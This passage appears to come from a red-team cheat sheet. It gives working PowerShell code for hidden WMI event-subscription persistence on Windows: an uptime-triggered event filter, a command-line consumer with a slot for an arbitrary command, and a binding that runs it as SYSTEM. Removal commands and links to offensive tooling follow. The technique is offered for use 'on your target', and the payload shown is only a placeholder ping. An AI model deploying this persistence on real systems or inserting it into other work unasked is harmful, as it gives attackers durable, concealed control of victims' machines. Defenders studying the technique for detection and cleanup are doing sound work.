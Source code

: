     $EventFilter = ([WMICLASS]"\.rootsubscription:__EventFilter").CreateInstance()
    $EventFilter.QueryLanguage = "WQL"
    $EventFilter.Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"
    $EVentFilter.EventNamespace = "rootcimv2"
    $EventFilter.Name = "OBVIOUSHACKER"
    $Result = $EventFilter.Put()
    $Filter = $Result.Path

http://msdn.microsoft.com/en-us/library/aa394639(v=vs.85).aspx

#### Event Consumer

Configure what to execute once the event occurs.  
Current example is just a ping.

    $InstanceConsumer = ([wmiclass]"\.rootsubscription:CommandLineEventConsumer").CreateInstance()
    $InstanceConsumer.Name = "OBVIOUSHACKER"
    $InstanceConsumer.CommandLineTemplate = "ping 127.0.0.1 -n 100" #CMD TO EXECUTE HERE
    $InstanceConsumer.WorkingDirectory = "C:\windows\system32"
    $Result = $InstanceConsumer.Put()
    $Consumer = $Result.Path

http://msdn.microsoft.com/en-us/library/aa389231(v=vs.85).aspx  
http://msdn.microsoft.com/en-us/library/aa393649(v=vs.85).aspx

#### Filter/Consumer Binding

This is the object that correlates the Filter with the Consumer.  
Runs as system as a child of WmiPrvSE.exe under the svchost.exe running Dcom service.

    $InstanceBinding = ([wmiclass]"\.rootsubscription:__FilterToConsumerBinding").CreateInstance()
    $InstanceBinding.Filter = $Filter
    $InstanceBinding.Consumer = $Consumer
    $Result = $InstanceBinding.Put()

http://msdn.microsoft.com/en-us/library/aa394647(v=vs.85).aspx

#### REMOVAL

The filter name would change depending on what you call the wmi event on your target (OBVIOUSHACKER shown as the example)

    Get-WmiObject __eventFilter -namespace rootsubscription -filter "name='OBVIOUSHACKER'"| Remove-WmiObject
    Get-WmiObject CommandLineEventConsumer -Namespace rootsubscription -filter "name='OBVIOUSHACKER'" | Remove-WmiObject
    Get-WmiObject __FilterToConsumerBinding -Namespace rootsubscription | Where-Object { $_.filter -match 'OBVIOUSHACKER'} | Remove-WmiObject

[Some more detailed information on the subject][8]

http://www.bleepingcomputer.com/tutorials/windows-program-automatic-startup-locations/

### Malicious Outlook Rules


[1]: /threatexpress/img/pasties.png
[2]: https://www.twitter.com/joevest
[3]: https://www.twitter.com/andrewchiles
[4]: https://www.twitter.com/minis_io
[5]: https://canarytokens.org/generate#
[6]: http://blog.portswigger.net/2017/07/cracking-lens-targeting-https-hidden.html
[7]: https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6
[8]: http://www.exploit-monday.com/2013/04/PersistenceWithPowerShell.html
[9]: https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt
[10]: http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
[11]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf
[12]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
[13]: https://gist.github.com/HarmJ0y/3328d954607d71362e3c
[14]: https://adsecurity.org/?p=2362
[15]: http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
[16]: https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond